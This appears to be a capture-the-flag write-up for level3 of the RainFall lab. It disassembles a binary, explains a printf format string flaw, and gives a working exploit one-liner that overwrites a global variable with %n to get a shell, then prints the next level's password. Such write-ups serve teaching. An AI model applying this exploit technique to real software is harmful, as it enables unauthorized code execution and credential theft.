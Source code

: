# Level 0

- Once logged in, you will see a binary `level2`

```
[???] $ ssh level3@localhost -p 4242
	  _____       _       ______    _ _
	 |  __ \     (_)     |  ____|  | | |
	 | |__) |__ _ _ _ __ | |__ __ _| | |
	 |  _  /  _` | | '_ \|  __/ _` | | |
	 | | \ \ (_| | | | | | | | (_| | | |
	 |_|  \_\__,_|_|_| |_|_|  \__,_|_|_|

                 Good luck & Have fun

  To start, ssh with level0/level0 on localhost:4242
level3@localhost's password:
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level3/level3
level3@RainFall:~$ ls
level3
```

let's run this and see what this does
```
level3@RainFall:~$ ./level3

```

okay, this one does the same behavior as level2

```
level3@RainFall:~$ ./level3
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
level3@RainFall:~$
```

Now let's take a look at the binary

```
gdb-peda$ disass main
Dump of assembler code for function main:
   0x0804851a <+0>:     push   ebp
   0x0804851b <+1>:     mov    ebp,esp
   0x0804851d <+3>:     and    esp,0xfffffff0
   0x08048520 <+6>:     call   0x80484a4 <v>
   0x08048525 <+11>:    leave
   0x08048526 <+12>:    ret
End of assembler dump.
```

take a look at v

```
Dump of assembler code for function v:
   0x080484a4 <+0>:     push   ebp
   0x080484a5 <+1>:     mov    ebp,esp
   0x080484a7 <+3>:     sub    esp,0x218
   0x080484ad <+9>:     mov    eax,ds:0x8049860
   0x080484b2 <+14>:    mov    DWORD PTR [esp+0x8],eax
   0x080484b6 <+18>:    mov    DWORD PTR [esp+0x4],0x200
   0x080484be <+26>:    lea    eax,[ebp-0x208]
   0x080484c4 <+32>:    mov    DWORD PTR [esp],eax
   0x080484c7 <+35>:    call   0x80483a0 <fgets@plt>
   0x080484cc <+40>:    lea    eax,[ebp-0x208]
   0x080484d2 <+46>:    mov    DWORD PTR [esp],eax
   0x080484d5 <+49>:    call   0x8048390 <printf@plt>
   0x080484da <+54>:    mov    eax,ds:0x804988c
   0x080484df <+59>:    cmp    eax,0x40
   0x080484e2 <+62>:    jne    0x8048518 <v+116>
   0x080484e4 <+64>:    mov    eax,ds:0x8049880
   0x080484e9 <+69>:    mov    edx,eax
   0x080484eb <+71>:    mov    eax,0x8048600
   0x080484f0 <+76>:    mov    DWORD PTR [esp+0xc],edx
   0x080484f4 <+80>:    mov    DWORD PTR [esp+0x8],0xc
   0x080484fc <+88>:    mov    DWORD PTR [esp+0x4],0x1
   0x08048504 <+96>:    mov    DWORD PTR [esp],eax
   0x08048507 <+99>:    call   0x80483b0 <fwrite@plt>
   0x0804850c <+104>:   mov    DWORD PTR [esp],0x804860d
   0x08048513 <+111>:   call   0x80483c0 <system@plt>
   0x08048518 <+116>:   leave
   0x08048519 <+117>:   ret
```

On line <+59>, if a value stored in eax is stored 0x40 is not equal, it will jump to <v+116>, otherwise `fwrite` and `system` function will be executed.

below are the strings stored in the address relavent to the `fwrite` and `system`
```
gdb-peda$ x/s 0x8048600
0x8048600:       "Wait what?!\n"
gdb-peda$ x/s 0x804860d
0x804860d:       "/bin/sh"
```

In order to execute, a `format string vulnerability` will be used, as the function `printf` is used.
But what is `format string vulnerability` and why all of the sudden `printf` is mentioned?

- https://www.youtube.com/watch?v=0WvrSfcdq1I (nees to write)


on line <+54>, we can see the value `0x40` is compared with the valune on the address `0x804988c`, the variable `m`

```
gdb-peda$ info variables
All defined variables:

Non-debugging symbols:
0x080485f8  _fp_hw
0x080485fc  _IO_stdin_used
0x08048734  __FRAME_END__
0x08049738  __CTOR_LIST__
0x08049738  __init_array_end
0x08049738  __init_array_start
0x0804973c  __CTOR_END__
0x08049740  __DTOR_LIST__
0x08049744  __DTOR_END__
0x08049748  __JCR_END__
0x08049748  __JCR_LIST__
0x0804974c  _DYNAMIC
0x08049818  _GLOBAL_OFFSET_TABLE_
0x0804983c  __data_start
0x0804983c  data_start
0x08049840  __dso_handle
0x08049860  stdin@@GLIBC_2.0
0x08049880  stdout@@GLIBC_2.0
0x08049884  completed.6159
0x08049888  dtor_idx.6161
0x0804988c  m
```

and if only format string is passed, it causes the segmentation fault

```
level3@RainFall:~$ ./level3
%s
Segmentation fault (core dumped)
```

what if we pass `%x` into the input?

```
level3@RainFall:~$ ./level3
%x
200
```

as explained from above, if format string is passed into the variable, we can easily get the address of the stack

```
level3@RainFall:~$ echo "%x %x %x %x" | ./level3
200 b7fd1ac0 b7ff37d0 25207825
```

The goal of this level is to find a offset where we reach the address of the variable we want to modify, so we need to see in which address our buffer is wrote

```
$ echo "AAAA %x %x %x %x %x %x" | ./level3
AAAA 200 b7fd1ac0 b7ff37d0 41414141 20782520 25207825
````

we can see the offset of AAAA is 4, but noe we need to change this to the address of `m`

lastly, we just want to change the content of the variable m. Remember, the global variable m needs to have a size of 64

```
address of m : 4 bytes
pad of arbitrary data : 60 bytes
modifier %n
```

level3@RainFall:~$ (python -c 'print "\x8c\x98\x04\x08" + "A" * 60 + "%4$n"' ; cat -) | ./level3

```

�AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wait what?!
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```

